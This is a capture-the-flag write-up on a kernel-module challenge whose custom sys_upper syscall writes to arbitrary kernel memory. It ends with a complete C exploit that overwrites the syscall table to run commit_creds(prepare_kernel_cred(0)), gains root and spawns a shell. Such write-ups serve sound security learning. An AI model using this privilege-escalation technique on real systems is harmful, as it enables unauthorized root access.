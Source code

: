 # syscall writeup by agam

### In the given syscall.c code, we can see that they add a new syscall named sys_upper to the syscall_table. This syscall essentially converts any string of lowercase to uppercase.

```c
static int __init initmodule(void ){
	sct = (unsigned int**)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}
```
# INDEED? :D


### By inspecting the syscall code further, we can see that essentially, any user has read/write permissions in the kernel, indicated by a 0x20 offset ☠.
```c
asmlinkage long sys_upper(char *in, char* out) {
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i] >= 0x61 && in[i] <= 0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}
```

## On the host, we can see that the kernel module has already been loaded.
```bash
$ lsmod
m 663 0 - Live 0x7f000000 (PO)

$ cat /proc/kallsyms | grep sys_upper
7f000000 t sys_upper    [m]
```

## To gain privileges, we need to change the process privileges and commit them. This can be achieved with this line of code:
```c
commit_creds(prepare_kernel_cred(0))
```

### Where "prepare_kernel_cred" is a func that creates a struct which represents the credentials of a process in the kernel. By passing 0 as an argument, you're essentially asking the kernel to prepare credentials for root. This function allocates and initializes a cred structure with elevated privileges.
```c
struct cred *prepare_kernel_cred(struct task_struct *daemon)
{
	const struct cred *old;
	struct cred *new;

    ...

	old = get_task_cred(daemon);

	*new = *old;
	new->non_rcu = 0;
	atomic_long_set(&new->usage, 1);
	get_uid(new->user); 
	get_user_ns(new->user_ns);
	get_group_info(new->group_info);

    ...
}
``` 

 And **"commit_creds"** is a function that is used to replace the credentials of the current process with the credentials provided as an argument. It effectively changes the process's security context. By passing the result of prepare_kernel_cred(0) as an argument to commit_creds(), you're replacing the current process's credentials with those of the root privileges.

## since there isn't kalsr, Let's check the addresses of those functions inside of /proc/kallsyms:
```bash
$ cat /proc/kallsyms | grep sys_call_table
    >>> 8000e348 T sys_call_table <<<
```
```bash
$ cat /proc/kallsyms | grep prepare_kernel_cred
    >>> 8003f924 T prepare_kernel_cred <<<
    80447f34 r __ksymtab_prepare_kernel_cred
    8044ff8c r __kstrtab_prepare_kernel_cred
```
```bash
$ cat /proc/kallsyms | grep creds
    8003f3d8 T override_creds
    8003f44c T prepare_creds
    8003f51c T revert_creds
    >>> 8003f56c T commit_creds <<<
```

# Let's make the exploit poc!
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>
#include <sys/syscall.h>

// 8000e348 T sys_call_table
#define SYS_CALL_TABLE       ((void**)0x8000e348) // 0x [80] [00] [e3] [48] -> 
#define COMMIT_CREDS         0x8003f56c // 0x [80] [03] [f5] [6c] -> "\x8c\xf5\x03\x80";
#define PERPARE_KERNEL_CREDS 0x8003f924 // 0x [80] [03] [f9] [24] -> "\x24\xf9\x03\x80";

#define SYS_UPPER            223


long get_root_privlleges_process(void* (*prepare)(void*), int (*commit)(void*) )
{
    return commit(prepare(NULL));
}

int main() 
{

    unsigned int** sct;
    sct = (unsigned int**)SYS_CALL_TABLE;
    printf("[+] get_root_privlleges_process func addr: %p\n", get_root_privlleges_process);

    // store pointer to get_root_privlleges_process
    uint8_t sys_root_ptr[sizeof(void*) + 1] = {0};
    *(void**)sys_root_ptr = (void*)get_root_privlleges_process;

    printf("[+] sys_root_ptr: %p\n", sys_root_ptr);
    printf("[+] sys_upper addr: %p\n", SYS_CALL_TABLE + SYS_UPPER); 

    // override SYS_UPPER syscall functionality to our get_root_privlleges_process func
    syscall(SYS_UPPER, sys_root_ptr, &sct[SYS_UPPER]);
    puts("changed sys_upper to sys_root_ptr :D");
    
    void *commit  = (void*)COMMIT_CREDS;
    void *prepare = (void*)PERPARE_KERNEL_CREDS;

    printf("[+] commit: %p\n[+] prepare: %p\n", commit, prepare);
    // call our new syscall with the memory address of commit and prepare
    syscall(SYS_UPPER, prepare, commit);

    //      goal
    // ----------------
    system("/bin/sh");

    return 0;
}
```
